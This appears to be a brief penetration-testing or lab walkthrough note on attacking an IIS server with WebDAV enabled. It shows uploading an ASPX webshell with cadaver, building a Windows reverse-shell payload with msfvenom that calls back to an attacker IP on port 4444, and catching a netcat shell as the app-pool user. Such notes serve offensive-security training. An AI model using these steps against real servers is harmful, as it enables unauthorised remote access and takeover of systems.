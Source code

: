 WebDAV is enabled on the web server that allows multiple OPTIONS\. cadaver can be used to upload a file on the web server

-  put /usr/share/webshells/aspx/cmdasp\.aspx
-  put shell\.exe \(msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192\.168\.45\.199 LPORT=4444 \-f exe \> shell\.exe

-  execute shell\.exe and get netcat  reverse shell

c:\\windows\\system32\\inetsrv\>whoami
whoami
iis apppool\\defaultapppool


